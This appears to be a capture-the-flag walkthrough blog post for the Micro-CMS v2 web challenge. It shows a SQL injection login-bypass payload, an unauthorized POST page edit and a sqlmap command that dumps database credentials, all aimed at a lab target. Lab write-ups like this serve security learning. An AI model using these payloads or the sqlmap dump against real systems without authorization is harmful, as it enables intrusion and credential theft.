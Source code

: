  Micro-CMS v2 - Web CTF Walkthrough

🏆 Challenge Overview

- Challenge Name: Micro-CMS v2  
- Category: Web  
- Difficulty: Moderate  
- Flags: 3  

Hey everyone! I'm Divyanshu Kumar, a cybersecurity enthusiast. In this post, I’ll walk you through my experience solving the Micro-CMS v2 CTF challenge. This is part of my series where I explore cybersecurity concepts through CTF (Capture The Flag) walkthroughs.

⚠️ Disclaimer: I’m still learning, and these posts are meant to document and share my knowledge as I grow in the cybersecurity field. Now, let’s dive into the challenge! 🕵️‍♂️

---

 Flag 0: SQL Injection Authentication Bypass

 Exploitation
The login page of the application is vulnerable to SQL injection. Entering a single quote (`'`) in the username field results in a 500 Internal Server Error, indicating that the application is improperly handling SQL queries.

To exploit this, we use a simple SQL injection payload to bypass authentication:

```sql
username=usr' UNION SELECT 'pass';--`
password=pass
```

 Outcome
This payload allows us to log in successfully. However, we are prompted with a message:

> "You got logged in, congrats! Do you have the real username and password? If not, might want to do that!"

This suggests that further enumeration might be required to retrieve actual credentials.

---

 Flag 1: Exploiting Improper HTTP Method Handling

 Issue Identified
In Micro-CMS v1, we had the ability to edit and create pages, which is no longer possible in v2 through GET requests. However, by analyzing the application, we can attempt to send a POST request to modify pages.

 Exploitation
Using Burp Suite or a simple cURL request, we send a POST request to `/page/edit/1` instead of a GET request:

```http
POST /page/edit/1 HTTP/1.1
Host: target-site.com
Content-Type: application/x-www-form-urlencoded

page_content=NewContent
```

 Outcome
Upon executing this, we successfully retrieve Flag 1.

---

 Flag 2: Extracting Credentials Using SQLMap

 Preparation
We create a text file (`h.txt`) containing an intercepted login request using Burp Suite or browser’s Developer Tools → Network Tab.

```http
POST /login HTTP/1.1
Host: target-site.com
Content-Type: application/x-www-form-urlencoded

username=admin&password=admin
```

 SQLMap Execution
Using the saved request, we run SQLMap to extract credentials:

```bash
sqlmap -r h.txt --batch --proxy="http://127.0.0.1:8080" --random-agent -p username --level=2 --risk=2 --dump --force-ssl
```

 Outcome
- The command dumps the database, revealing the username and password.
- Using these credentials, we log in and retrieve Flag 2.

---

 Conclusion
The Micro-CMS v2 CTF challenge demonstrates several common web vulnerabilities:
1. SQL Injection to bypass authentication.
2. Improper HTTP Method Handling allowing unauthorized modifications.
3. Database Extraction using automated tools like SQLMap.

These vulnerabilities highlight the importance of secure coding practices such as prepared statements, proper HTTP method validation, and limiting SQL query exposure.

